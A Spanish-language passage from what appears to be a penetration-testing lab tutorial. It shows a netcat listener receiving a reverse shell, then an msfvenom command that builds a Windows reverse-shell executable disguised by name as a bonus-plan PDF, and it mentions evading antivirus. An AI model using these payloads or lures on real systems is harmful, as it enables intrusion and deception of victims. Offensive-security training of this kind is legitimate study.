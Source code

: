 Cuando el archivo se ejecuta, observamos que hemos capturado una **shell**.

### Conexión Establecida

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```

Este mismo concepto se puede utilizar para crear **payloads** para varias plataformas, incluyendo Windows.

## Construcción de un Payload Stageless simple para un sistema Windows

También podemos usar **msfvenom** para crear un archivo ejecutable (.exe) que pueda ejecutarse en un sistema Windows y proporcione una shell inversa.

#### Creación del Payload para Windows

```bash
sherlock28@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

La sintaxis de este comando se puede desglosar de la misma manera que lo hicimos anteriormente. La única diferencia es la plataforma (Windows) y el formato del **payload** (.exe).

## Ejecución de un Payload Stageless simple en un sistema Windows

Este es otro escenario en el que necesitamos ser creativos para entregar el **payload** al sistema objetivo. Sin codificación o cifrado, el **payload** en esta forma casi con certeza sería detectado por Windows Defender u otro software antivirus.

